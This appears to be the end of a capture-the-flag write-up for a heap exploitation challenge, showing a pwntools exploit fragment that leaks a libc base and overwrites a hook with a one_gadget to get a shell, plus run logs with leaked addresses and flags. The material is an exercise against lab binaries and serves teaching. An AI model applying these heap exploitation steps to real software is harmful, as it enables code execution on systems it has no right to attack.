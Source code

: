 ```python
free_buffer(io, "6")

alloc_buffer(io, payload=payload)

io.sendline("2")
eat_menu(io)
io.sendline("5")

one_gadget = libc_base + 0x4526a
payload = p64(one_gadget)
io.sendline(payload)

eat_menu(io)
io.sendline("4")
eat_menu(io)
io.sendline("0")
io.interactive()
io.close()
quit()
```

### Output Run (LOCAL)

```
ctf@ctf:~/two$ python exploit_edited.py 
[*] '/home/ctf/two/proof_of_pown2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
[*] '/home/ctf/two/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/ctf/two/proof_of_pown2': pid 12070
[*] buffer allocated at 0xd01010
[*] buffer allocated at 0xd01110
[*] buffer allocated at 0xd01210
[*] buffer allocated at 0xd01310
[*] buffer allocated at 0xd01410
[*] buffer 1 freed
[*] buffer allocated at 0xd01110
[*] buffer 3 freed
[*] buffer allocated at 0xd011d0
[*] puts at: 7efef9400690
[*] libc base is at: 7efef9391000
[*] free hook is at: 7efef97577a8
[*] buffer 6 freed
[*] buffer allocated at 0xd011d0
[*] Switching to interactive mode
 Index: $
```

Flag: `ptm{5t0p_m355ing_wi7h_bl0ckch4ins}`


[INFO]:  Opening binary ./libc.so.6
[INFO]:  Opening binary ./proof_of_pwn
[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7
